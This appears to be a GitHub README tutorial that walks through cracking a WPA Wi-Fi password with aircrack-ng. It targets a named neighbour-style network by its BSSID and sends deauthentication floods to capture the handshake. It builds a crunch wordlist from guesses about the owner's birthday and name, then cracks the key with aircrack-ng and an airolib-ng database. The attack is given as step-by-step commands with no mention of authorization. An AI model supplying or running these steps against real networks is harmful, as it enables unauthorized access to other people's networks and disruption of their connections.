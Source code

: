 # Example crack wpa attack with aircrack-ng

i use tp-link wn725n (chipset rtl8188eus) and parrotOS

connect your card wifi and check

```
iwconfig
```

![image](https://user-images.githubusercontent.com/90561566/168417974-d9650a49-951b-4a6f-ab8b-12e4f7cd7455.png)

```
airmon-ng check kill
airmon-ng start <iface>
```

![image](https://user-images.githubusercontent.com/90561566/168418068-964e3312-b269-44fc-9721-398be478f2ce.png)

```
airodump-ng <iface>
```

![image](https://user-images.githubusercontent.com/90561566/168418114-4d4e8f16-58ec-4358-bc99-dd625f4e7d26.png)

i will choose target is `Quang Minh 2G`, CH `11`, bssid `5C:1A:6F:88:19:19`

```
airodump-ng -c <CH> --bssid <bssid> -w out <iface>
```

![image](https://user-images.githubusercontent.com/90561566/168418356-e901847a-143e-4509-85b2-efeb783b1ca1.png)

new terminal

```
aireplay-ng --deauth 0 -a <bssid> <iface>
```

![image](https://user-images.githubusercontent.com/90561566/168418251-fe850fa5-0687-4241-836d-9d287f276e95.png)

wait about 5s, return airodump-ng terminal, if you see WPA handshake is okay and Ctrl+C to stop (both)

![image](https://user-images.githubusercontent.com/90561566/166421288-8ba74de3-f6f9-4973-be3e-d9aafd8fcb11.png)

```
ls
```

![image](https://user-images.githubusercontent.com/90561566/166421374-cfcf7080-c28a-402b-a6cb-9fda3a275a91.png)

create passlist

```
crunch <min> <max> <charset> -t <pattern> -o password.txt
```

because it's going to be a very, very large file, so i'm going to reveal that

the password is 8 numbers (i think it contains in his birthday) and 1 character (i think it contains in his name)

you can also use [Cupp](https://github.com/lucthienphong1120/cupp) to make such inferences

![image](https://user-images.githubusercontent.com/90561566/166604507-5c291bf0-6961-4a15-8c52-cf5faf0b749f.png)

the output file about 11,5 GB and 1,2 billion passwords

---

now you can crack wpa with

```
aircrack-ng -w password.txt out*.cap
```

or redirect directly from crunch

```
crunch <min> <max> <charset> -t <pattern> | aircrack-ng -w- out*.cap
```

![image](https://user-images.githubusercontent.com/90561566/166444763-a0cb15e0-309f-430e-bc6d-ce92e7863f0e.png)

---

but i will use database to speed up the attack

it will take more time to set up the database (but it will be much faster than regular crack)

you should only use it if you create a permanent database for crack because it will take a long time (or the passlist is not too long)

install sqlite3 `sudo apt install sqlite3`

create a file `essid.txt` this write name of target wifi

![image](https://user-images.githubusercontent.com/90561566/166434891-81c08ca3-48ff-4579-9a74-fe6e65634b42.png)

```
airolib-ng crackwpa --import passwd password.txt
airolib-ng crackwpa --import essid essid.txt
```

![image](https://user-images.githubusercontent.com/90561566/166435872-44a73959-3784-41c3-849a-5c1aa823dcd4.png)

```
airolib-ng crackwpa --batch
```

![image](https://user-images.githubusercontent.com/90561566/166454564-9b6cd253-74a0-4304-b94e-988a3e92f825.png)


now crack with database, you will be surprised

```
aircrack-ng -r crackwpa out*.cap
```

done! there is the password (crack speed is about 36 GB/s)

![image](https://user-images.githubusercontent.com/90561566/166684325-e337e6cd-f376-4172-91a2-617a80a3156c.png)

```
airmon-ng stop <iface>
service NetworkManager restart
```









